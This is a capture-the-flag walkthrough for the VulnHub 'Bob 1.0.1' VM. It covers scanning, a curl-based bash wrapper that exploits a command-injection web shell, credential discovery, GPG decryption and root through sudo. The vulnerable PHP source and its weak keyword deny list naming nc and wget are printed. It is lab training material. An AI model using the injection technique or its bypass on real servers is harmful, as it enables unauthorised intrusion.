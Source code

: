 
<https://www.vulnhub.com/entry/bob-101,226/>

<https://hackso.me/bob-1.0.1-walkthrough/>

<https://resources.infosecinstitute.com/topic/bob-1-0-1-ctf-walkthrough/>



# Description

>
>Bob is my first CTF VM that I have ever made so be easy on me if it's not perfect.
>
The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now >setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
>
>Your Goal is to get the flag in /
>
>Hints: Remember to look for hidden info/files
>


# Keyword

bash_aliases, web shell, command injection, gpg, AES encrypted data




# Scan

    $ sudo nmap -sT -A  -Pn -n  -p- 192.168.110.4 
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:36 CEST
    Nmap scan report for 192.168.110.4
    Host is up (0.00051s latency).
    Not shown: 65533 closed ports
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 4 disallowed entries 
    | /login.php /dev_shell.php /lat_memo.html 
    |_/passwords.html
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
    |   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
    |_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
    MAC Address: 08:00:27:B4:F5:10 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.51 ms 192.168.110.4

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds


# Web shell

    http://192.168.110.4/dev_shell.php

test : `id|id`, `id|ls -al`

## Injection command


A script

```bash
#!/bin/bash

HOST=192.168.110.4
SHELL=dev_shell.php
printf "$ "
while read line
do
    if [[ "$line" == "exit" ]]; then
        break
    fi
    curl -s --data-urlencode "in_command=id | $line" http://$HOST/$SHELL | sed '/<h5>/,/<\/div>/!d' | sed -r -e '1d' -e '$d' -e 's/^\s+//'
    printf "$ "
done < "/proc/${$}/fd/0"

```

Exploit

    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
    $ cat /home/bob/.old_passwordfile.html
    <html>
    <p>
    jc:Qwerty
    seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
    </p>
    </html>


# SSH connection


## Search

    seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh 
    #!/bin/bash
    clear
    echo "-= Notes =-"
    echo "Harry Potter is my faviorite"
    echo "Are you the real me?"
    echo "Right, I'm ordering pizza this is going nowhere"
    echo "People just don't get me"
    echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
    echo "Cucumber"
    echo "Rest now your eyes are sleepy"
    echo "Are you gonna stop reading this yet?"
    echo "Time to fix the server"
    echo "Everyone is annoying"
    echo "Sticky notes gotta buy em"



## Found password

    seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ bash notes.sh  | cut -c1 | tr -d '\n' && echo
    ARPOCRATES

## Decrypted gpg file

    seb@Milburg-High:/home/bob/Documents$ file login.txt.gpg 
    login.txt.gpg: GPG symmetrically encrypted data (AES cipher)


    seb@Milburg-High:/home/bob/Documents$ gpg -d --passphrase HARPOCRATES --batch login.txt.gpg 
    gpg: keybox '/home/seb/.gnupg/pubring.kbx' created
    gpg: AES encrypted data
    gpg: encrypted with 1 passphrase
    bob:b0bcat_

## Get root

    seb@Milburg-High:/home/bob/Documents$ su bob
    Password: b0bcat_
    bob@Milburg-High:~/Documents$ sudo -l
    sudo: unable to resolve host Milburg-High: Connection refused
    [sudo] password for bob: 
    Matching Defaults entries for bob on Milburg-High:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User bob may run the following commands on Milburg-High:
        (ALL : ALL) ALL
    bob@Milburg-High:~/Documents$ sudo id
    sudo: unable to resolve host Milburg-High: Connection refused
    uid=0(root) gid=0(root) groups=0(root)


# Secret

## `dev_shell.php`

```php
 # /bin/cat dev_shell.php
  
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
    if (strpos($command, ';') !==false){
        system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
    } else {
        $is_he_a_bad_man = explode(' ', trim($command));
        //checks for dangerous commands
        if (in_array($is_he_a_bad_man[0], $bad_words)){
            system("echo Get out skid lol");
        } else {
            system($_POST['in_command']);
        }
    }


```


## `cat` command

### .profile

    if [ -d /etc/profile.d ]; then
      for i in /etc/profile.d/*.sh; do
        if [ -r $i ]; then
          . $i
        fi
      done
      unset i
    fi

### Directory /etc/profile.d/

    jc@Milburg-High:~$ /bin/cat /etc/profile.d/00-aliases.sh 
    alias cat='echo hey \n there'  <== HERE
    alias testing='echo testing right back at you'
